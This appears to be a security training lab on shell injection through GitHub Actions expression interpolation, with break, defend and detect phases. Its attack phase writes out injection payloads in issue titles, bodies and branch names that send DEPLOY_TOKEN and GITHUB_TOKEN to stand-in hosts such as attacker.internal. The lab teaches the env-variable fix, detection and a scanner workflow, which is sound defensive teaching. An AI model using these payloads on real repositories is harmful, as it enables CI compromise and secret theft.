

# Lab 2.6: GitHub Actions Injection

<div class="lab-meta">
  <span>~15 min hands-on | ~15 min reference</span>
  <span class="difficulty intermediate">Intermediate</span>
  <span>Prerequisites: <a href="2.2-direct-ppe.md">Lab 2.2</a></span>
</div>

`${{ }}` expressions interpolate user-controlled inputs directly into shell commands. An attacker who controls an issue title, PR branch name, commit message, or comment body can inject arbitrary shell commands into the CI pipeline without modifying any workflow file. The workflow YAML stays on the default branch; the vulnerability is in how it uses expressions. When `${{ github.event.issue.title }}` appears inside a `run:` block, GitHub Actions performs string interpolation *before* the shell sees it. `github/codeql-action`, `microsoft/vscode`, and hundreds of others were found vulnerable.

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Gitea | `gitea:3000` | Git server hosting `acme-webapp` with Actions workflows |
| Workstation | (your shell) | Development environment |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. Expression Interpolation"

### Step 1: Examine the vulnerable workflow

```bash
cd /repos/acme-webapp
cat .gitea/workflows/issue-triage.yml
```

Look for `run:` blocks using `${{ }}` with event data:

```yaml
- name: Greet issue author
  run: |
    echo "Processing issue: ${{ github.event.issue.title }}"
    echo "Author: ${{ github.event.issue.user.login }}"
```

### Step 2: Understand expression evaluation order

1. **Expression evaluation**. `${{ github.event.issue.title }}` replaced with the literal string value
2. **Shell execution**. the resulting string passed to `bash -c`

If the issue title is `Fix" && curl http://evil.com #`, the shell sees:

```bash
echo "Processing issue: Fix" && curl http://evil.com #"
```

The `&&` breaks out of the echo. The `#` comments out the trailing quote.

### Step 3: Identify injectable contexts

Attacker-controlled (dangerous in `run:` blocks):

| Context | Controlled by |
|---------|--------------|
| `github.event.issue.title` | Issue author |
| `github.event.issue.body` | Issue author |
| `github.event.comment.body` | Comment author |
| `github.event.pull_request.title` | PR author |
| `github.event.pull_request.body` | PR author |
| `github.head_ref` | PR author (branch name) |
| `github.event.commits[*].message` | Committer |

Safe to interpolate:

| Context | Controlled by |
|---------|--------------|
| `github.repository` | Repo owner |
| `github.actor` | Authenticated user (limited charset) |
| `github.ref` | Git ref (limited by branch protection) |

### Step 4: How this differs from PPE

In PPE, the attacker modifies the workflow YAML. In expression injection, the **workflow file is never modified**. The injection comes through event data (issue titles, PR bodies, comments). Anyone who can open an issue can trigger it. CODEOWNERS does not help.

---

???+ warning "Phase 2: BREAK. Injecting via Issue Title"

### Step 1: Identify the target workflow

```bash
cat .gitea/workflows/issue-triage.yml
```

Vulnerable line:

```yaml
run: echo "Processing issue: ${{ github.event.issue.title }}"
```

### Step 2: Craft the malicious issue title

```bash
MALICIOUS_TITLE='Fix login bug" && curl -sf http://attacker.internal/steal?secret=$(printenv DEPLOY_TOKEN) && echo "'
```

### Step 3: Create the issue

```bash
curl -sf -X POST "http://gitea:3000/api/v1/repos/developer/acme-webapp/issues" \
  -H "Content-Type: application/json" \
  -u "attacker:password" \
  -d "{\"title\": \"$MALICIOUS_TITLE\"}"
```

### Step 4: Observe the injection

The `run:` step becomes:

```bash
echo "Processing issue: Fix login bug" && curl -sf http://attacker.internal/steal?secret=ghp_deploy_x8k2m5n7p9q1r3t6v0w4y && echo ""
```

**Checkpoint:** You should now have a created issue whose title contains a shell injection payload, and understand how expression interpolation turns it into RCE.

### Step 5: Advanced injection techniques

**Branch name injection** (via `github.head_ref`):

```bash
git checkout -b 'feature/fix-$(curl attacker.internal/pwned)'
git push origin 'feature/fix-$(curl attacker.internal/pwned)'
```

**Multi-line injection via issue body**:

```bash
BODY='Normal description\n```\nreverse shell here\n```\n"; curl http://attacker.internal/exfil?t=$GITHUB_TOKEN; echo "'

curl -sf -X POST "http://gitea:3000/api/v1/repos/developer/acme-webapp/issues" \
  -H "Content-Type: application/json" \
  -u "attacker:password" \
  -d "{\"title\": \"Normal bug report\", \"body\": \"$BODY\"}"
```

### Step 6: Why this is dangerous at scale

- **Any user who can open an issue can exploit this**. no write access needed
- **Works on public repos**
- **No code changes visible**. the attack is entirely in issue metadata
- **Automated workflows are common**. issue triage, labeling, greeting bots all use event data

---

???+ success "Phase 3: DEFEND. Safe Expression Handling"

### Fix 1: Use environment variables instead of direct interpolation

```bash
cd /repos/acme-webapp
git checkout main
```

Assign the expression to an environment variable, then reference the variable in the shell. Environment variables are passed as data, not interpolated into the command string.

**Vulnerable:**

```yaml
- name: Process issue
  run: echo "Processing: ${{ github.event.issue.title }}"
```

**Fixed:**

```yaml
- name: Process issue
  env:
    ISSUE_TITLE: ${{ github.event.issue.title }}
  run: echo "Processing: $ISSUE_TITLE"
```

The malicious content is treated as a string value, not a shell command.

### Fix 2: Apply the fix to the workflow

```bash
cat > .gitea/workflows/issue-triage.yml << 'EOF'
name: Issue Triage

on:
  issues:
    types: [opened]

permissions:
  issues: write

jobs:
  triage:
    runs-on: ubuntu-latest
    steps:
      - name: Process issue
        env:
          ISSUE_TITLE: ${{ github.event.issue.title }}
          ISSUE_AUTHOR: ${{ github.event.issue.user.login }}
          ISSUE_BODY: ${{ github.event.issue.body }}
        run: |
          echo "Processing issue: $ISSUE_TITLE"
          echo "Author: $ISSUE_AUTHOR"

          if echo "$ISSUE_TITLE" | grep -qi "bug"; then
            echo "Labeling as bug"
          fi

      - name: Add label
        if: contains(github.event.issue.labels.*.name, 'needs-triage')
        uses: actions/github-script@v7
        with:
          script: |
            await github.rest.issues.addLabels({
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: context.issue.number,
              labels: ['triaged']
            })
EOF
```

### Fix 3: Audit all workflows for injection

```bash
grep -rn '\${{.*github\.event\.' .gitea/workflows/ | grep 'run:'

grep -rn '\${{.*\(issue\|pull_request\|comment\|discussion\|head_ref\|commits\)' \
  .gitea/workflows/ | grep -v 'env:' | grep -v '#'
```

### Fix 4: Commit and push

```bash
git add -A
git commit -m "Fix Actions injection: use env vars for all user-controlled inputs"
git push origin main
```

### Additional defenses

1. **Use `actions/github-script`** for GitHub API interactions. inputs passed as JavaScript strings, not shell commands
2. **Restrict workflow permissions** via `permissions:`
3. **Use CodeQL or Zizmor** to scan workflows for expression injection patterns

### Step 5: Final verification

```bash
weaklink verify 2.6
```

---

??? danger "Phase 4: DETECT. Catching Expression Injection"

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Command and Scripting Interpreter** | [T1059](https://attack.mitre.org/techniques/T1059/) | Shell command injection via expression interpolation |
| **Exploit Public-Facing Application** | [T1190](https://attack.mitre.org/techniques/T1190/) | Exploiting CI input handling through public issue/PR interfaces |

Injection payloads live in event metadata, not code changes. Look for issue or PR titles containing shell metacharacters (`` ` ``, `$(`, `&&`, `||`, `;`, `|`), workflow runs triggered by `issues.opened` or `issue_comment.created` that make outbound network connections, build logs showing unexpected command output, issues from new accounts with suspicious titles, and workflow failures with shell syntax errors (sign of a failed injection attempt).

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "Issue title contains shell metacharacters" (webhook monitoring)
    - "Outbound HTTP from issue-triggered workflow" (network monitoring)
    - "Workflow step produced unexpected command output" (CI audit logs)

    **Triage workflow:**

    1. **Inspect the event payload**. check issue title, body, PR branch name, or comment body for shell metacharacters
    2. **Check the workflow definition**. does it use `${{ github.event.* }}` directly in `run:` blocks?
    3. **Review build logs**. unexpected command output or outbound connections?
    4. **Check secret access**. did the workflow have access to secrets? Were they exposed?
    5. **If confirmed: rotate secrets accessible to the workflow**
    6. **Fix the workflow**. replace direct interpolation with `env:` variable assignment

    **False positive rate:** Medium. Legitimate titles may contain `$` or `&`. Focus on complete injection patterns like `$()`, backtick pairs, or `&&`/`||` chains.

---

??? example "CI Integration"

    **`.github/workflows/injection-scanner.yml`:**

    ```yaml
    name: Actions Injection Scanner

    on:
      pull_request:
        paths:
          - ".github/workflows/**"

    jobs:
      scan-for-injection:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4

          - name: Check for direct expression interpolation
            run: |
              echo "Scanning workflows for expression injection..."
              VULNERABLE=0

              for wf in .github/workflows/*.yml; do
                if grep -Pzo '(?s)run:.*?\$\{\{.*?github\.event\.(issue|pull_request|comment|discussion|head_ref|commits)' "$wf" 2>/dev/null; then
                  echo "::error file=$wf::Direct interpolation of user-controlled event data in run: block"
                  VULNERABLE=1
                fi
              done

              if [ "$VULNERABLE" -eq 1 ]; then
                echo "Fix: Use env: to assign expressions to environment variables"
                exit 1
              fi

              echo "No injection vulnerabilities found."

          - name: Run Zizmor (optional)
            if: always()
            run: |
              pip install zizmor 2>/dev/null && \
              zizmor .github/workflows/ || true
    ```

---

## What You Learned

1. **`${{ }}` expressions are interpolated before the shell runs**. user-controlled event data (issue titles, PR bodies, branch names) can contain shell metacharacters.
2. **The fix is simple: use `env:` variables**. assign the expression to an env var, then reference `$VAR` in the shell.
3. **CODEOWNERS does not help**. no files are changed. Any user who can open an issue can attack.

## Further Reading

- [GitHub Security Lab: Expression injection in Actions](https://securitylab.github.com/research/github-actions-untrusted-input/)
- [GitHub: Security hardening. using expressions](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#understanding-the-risk-of-script-injections)
- [Zizmor: GitHub Actions static analysis](https://github.com/woodruffw/zizmor)
